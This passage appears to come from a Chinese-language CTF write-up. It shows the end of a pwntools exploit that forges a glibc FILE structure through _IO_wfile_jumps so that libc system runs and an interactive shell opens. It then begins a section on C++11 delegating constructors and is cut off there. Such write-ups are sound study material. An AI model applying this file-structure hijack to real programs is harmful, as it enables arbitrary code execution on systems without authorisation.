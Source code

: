 ```python

        if content & (1<<i)!=0:
            set_1()

        else:
            set_0()

write_64(0)
write_64(0)
write_64(0x4040a0)

# fake_io[0]=0x3b687320;  #will cover  content that lock point with 1
# fake_io[0x20/8]=0;  #write_base
# fake_io[0x28/8]=1;  #write_ptr
# fake_io[0xa0/8]=0x4040a0;   #_wide_data  
# fake_io[0x18/8]=0;         #_wide_data->_IO_write_base
# fake_io[0x30/8]=0;     #_wide_data->_IO_buf_base
# fake_io[0xe0/8]=0x4040a0;    # _wide_data->__wide_vtable 0xe0
# fake_io[0x68/8]=libc_base+0x58740;  #system  
# fake_io[0x88/8]=0x4040a0+0x100;  # attention fake_io is long*  , lock  address can be write    [fake_io+8]==0         
# fake_io[0xc0/8]=0;  #mode
# fake_io[0xd8/8]=libc_base+0x202228-40; #_IO_wfile_jumps-40

payload=flat({0:p32(0x3b687320),0x28:p64(1),0x30:p64(0),0x68:p64(libc_base+0x58740),0x88:p64(0x4040a0+0x100),0xa0:p64(0x4040a0),0xc0:0,0xd8:p64(libc_base+0x202228-40),0xe0:p64(0x4040a0)},filler=b'\x00', length=0x100)

# gdb.attach(p)

# context(os="linux",arch="amd64",log_level="debug")
while payload:
    tmp=payload[:8]
    print(u64(tmp))
    write_64(u64(tmp))
    payload=payload[8:]

p.sendlineafter(b"> ",str("r"))
p.interactive()

```

life\_simulator\_2
==================

委托构造函数
------

委托构造函数是 C++11 引入的一种特性，允许一个构造函数调用同一类中的另一个构造函数。这种特性可以减少代码重复，提高代码的可维护性和可读性。通过委托构造函数，我们可以在一个构造函数中对对象进行标准化的初始化，然后在其他构造函数中复用这个初始化逻辑。

### 委托构造函数的语法

